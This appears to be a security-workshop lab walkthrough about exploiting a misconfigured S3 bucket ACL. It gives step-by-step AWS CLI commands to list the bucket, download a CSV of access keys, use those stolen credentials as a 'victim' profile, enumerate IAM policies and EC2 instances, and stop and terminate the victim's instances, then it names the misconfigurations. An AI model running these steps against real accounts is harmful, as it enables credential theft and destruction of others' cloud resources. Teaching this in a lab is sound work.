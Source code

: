 # ACL Authenticated group 


* Clone the repository 

```bash
git clone https://
```
* Go to Directory 

```bash
 cd /directory
```

* Lets use the bucket_finder tool to check our target bucket exist or not

```bash
./bucket_finder.rb my_words
```

* Go to the target URL

    * https://vallabh.s3-us-west-2.amazonaws.com/

* Let's make the s3 bucket name as export variable 

```bash
export s3bucket=<bucketname>
```
```bash
echo $s3bucket
```

* Let's try enumerating the S3 bucket by listing the object

```bash
aws s3 ls s3://$s3bucket

```

* Now lets try accessing it though our AWS profile (your own)

* if you havent configured your profile follow the below steps

```bash
aws configure --profile #your_profile
```

* Now try listing thew objects

```bash
aws s3 ls s3://vallabh --profile your_name
```

* Fish around the bucket 

```bash
aws s3 ls s3://vallabh/etc/ --profile your_name
```

* Download the juicy file 

```bash
aws s3 cp s3://vallabh/etc/user.csv /home/we45-abhi/seasides/bucket_finder/ --profile your_name
```
//use sync 

* cat the csv file 

* configure the access key id and secret access key as attacker profile 

```bash
aws configure --profile victim

```
* Now check if you can access if any S3 objects present by using aws cli

```bash
aws s3 ls --profile victim
```

// abhi add ec2 full and iam readonly 

* Check the user profile 

```bash
aws sts get-caller-identity --profile victim
```
* lets try to pull out any s3 files

```bash
aws s3 ls --profile attacker
```

* Now lets check the user policies attached to the user if any, to figure out which all resources he might have

```bash
aws iam list-attached-user-policies --user-name victim --profile victim
```

* we came to know that he has ec2 access, now check if any running ec2 instance

```bash 

```

* lets check if any running ec2 instance 

```bash

aws ec2 describe-instances --profile victim --region eu-north-1
```

* Copy the Public IP address and paste in browser - scroll down for PublicIpAddress

* Open new terminal 

* lets export the instnce id 

```bash
export iId=<instance id>
```
```bash
echo $iId
```

* Lets stop the instance 

```bash
aws ec2 stop-instances --instance-id $iId --profile victim --region eu-north-1
aws ec2 terminate-instances --instance-id $iId --profile victim --region eu-north-1

```

* To check where may be the misconfiguration 
```bash
aws s3api get-bucket-acl --bucket $s3bucket --profile victim
```

* Another misconfiguration is providing excess policy such as "IAMReadOnlyAccess"

```bash 
aws iam list-attached-user-policies --user-name victim --profile victim
```
